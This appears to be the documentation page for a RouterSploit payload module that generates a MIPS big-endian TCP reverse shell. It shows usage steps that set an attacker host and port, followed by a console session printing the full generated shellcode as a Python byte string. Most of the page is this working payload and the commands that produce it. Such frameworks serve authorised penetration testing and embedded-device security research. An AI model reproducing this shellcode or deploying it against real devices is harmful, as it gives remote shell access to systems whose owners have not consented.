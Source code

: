## Description

Module generates payload that creates interactive tcp reverse shell for MIPSBE architecture.

## Verification Steps

  1. Start `./rsf.py`
  2. Do: `use payloads/mipsbe/reverse_tcp`
  3. Do: `set lhost 192.168.1.4`
  4. Do: `set lport 4321`
  5. Module generates mipsbe reverse shell tcp payload

## Scenarios

```
rsf > use payloads/mipsbe/reverse_tcp
rsf (MIPSBE Reverse TCP) > set lhost 192.168.1.4
[+] lhost => 192.168.1.4
rsf (MIPSBE Reverse TCP) > set lport 4321
[+] lport => 4321
rsf (MIPSBE Reverse TCP) > run
[*] Running module...
[*] Generating payload
[+] Building payload for python
payload = (
    "\x28\x04\xff\xff\x24\x02\x0f\xa6\x01\x09\x09\x0c\x28\x04\x11"
    "\x11\x24\x02\x0f\xa6\x01\x09\x09\x0c\x24\x0c\xff\xfd\x01\x80"
    "\x20\x27\x24\x02\x0f\xa6\x01\x09\x09\x0c\x24\x0c\xff\xfd\x01"
    "\x80\x20\x27\x01\x80\x28\x27\x28\x06\xff\xff\x24\x02\x10\x57"
    "\x01\x09\x09\x0c\x30\x44\xff\xff\x24\x02\x0f\xc9\x01\x09\x09"
    "\x0c\x24\x02\x0f\xc9\x01\x09\x09\x0c\x3c\x05\x00\x02\x34\xa5"
    "\x10\xe1\xaf\xa5\xff\xf8\x3c\x05\xc0\xa8\x34\xa5\x01\x04\xaf"
    "\xa5\xff\xfc\x23\xa5\xff\xf8\x24\x0c\xff\xef\x01\x80\x30\x27"
    "\x24\x02\x10\x4a\x01\x09\x09\x0c\x3c\x08\x2f\x2f\x35\x08\x62"
    "\x69\xaf\xa8\xff\xec\x3c\x08\x6e\x2f\x35\x08\x73\x68\xaf\xa8"
    "\xff\xf0\x28\x07\xff\xff\xaf\xa7\xff\xf4\xaf\xa7\xff\xfc\x23"
    "\xa4\xff\xec\x23\xa8\xff\xec\xaf\xa8\xff\xf8\x23\xa5\xff\xf8"
    "\x27\xbd\xff\xec\x28\x06\xff\xff\x24\x02\x0f\xab\x00\x90\x93"
    "\x4c"
)
```
